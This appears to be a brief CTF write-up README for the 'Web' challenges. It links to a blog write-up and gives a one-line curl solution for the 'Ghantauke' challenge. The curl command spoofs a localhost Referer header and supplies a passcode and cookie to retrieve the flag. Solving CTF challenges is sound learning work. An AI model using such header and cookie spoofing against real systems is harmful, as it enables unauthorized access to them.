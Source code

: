 # Writeup for 'Web' challanges:
- https://blog.rmb.info.np/nca-ctf-writeup (Credit: Rabindra Man Bajracharya)

Since **Ghantauke's Writeup** isn't available in above blog. Below is the one-liner solution for ghantauke challange:
```bash
curl -s 'http://147.79.67.234:5115/?passcode=opensesame' -H 'Referer: 127.0.0.1' -H 'DNT: 1' -H 'Cookie: MasterCookie=965eddc81173d4fe9c0ee6285fd56b996838fa67' | grep -o 'nca{[^}]*}'
```